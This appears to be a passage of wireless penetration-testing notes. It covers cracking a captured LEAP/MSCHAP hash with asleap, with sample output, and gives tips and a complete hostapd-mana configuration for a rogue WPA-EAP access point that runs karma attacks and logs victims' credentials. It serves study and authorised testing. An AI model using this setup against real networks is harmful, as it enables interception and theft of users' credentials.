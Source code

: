 #### Cracking the password
We will be using asleap to crack the password hash
```bash
asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
Using wordlist mode with "/usr/share/john/password.lst".
        hash bytes:        586c
        NT hash:           8846f7eaee8fb117ad06bdd830b7586c
        password:          password
```

### TIPS for hostapd-mana
TIPS:
- For testing you may need to change your client settings and turn off and on the wifi, while hostapd-mana remains running all the time, capturing creentials when connection attempts happen, and only if the configuration of the client is the right one for hostapd-mana to get hashes or credentials (EAP connections). at times hostapd-mana may behave strangely after many failed connections, just rerun it, but remember that most of the tweaking happens on the client when messing with the configuration, or if we want to generate traffic, just keep hostapd-mana running and turn off and on wifi on the client after changing the config.
- The channel doesn't matter, but if we use the same as the original it's easier to monitor both networks at once with airodump
- Disable monitor mode to host an AP with hostapd-mana
- If we don't clone the BSSID the channel we use doesn't matter, but if we clone it, we must use a different channel to avoid errors
- mana adds functions that hostapd doesn't have

#### Options in the configuration files of hostapd-mana
- mana_wpe=1 -> to sniff credentials
- mana_eapsuccess=1 -> To let the victim know that he was successful when connecting to us
- mana_credout=``<file>`` -> Saves creds to a file
- eap_server=1 -> Use the internal EAP server, not an external one
- enable_mana=1 -> karma attack, respond to every client that tries to connect to us, making him believe that we are the SSID that he is probing

```
interface=wlan1
ssid=<ESSID>
hw_mode=g
channel=6
auth_algs=3
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
mana_credout=hostapd.creds
```
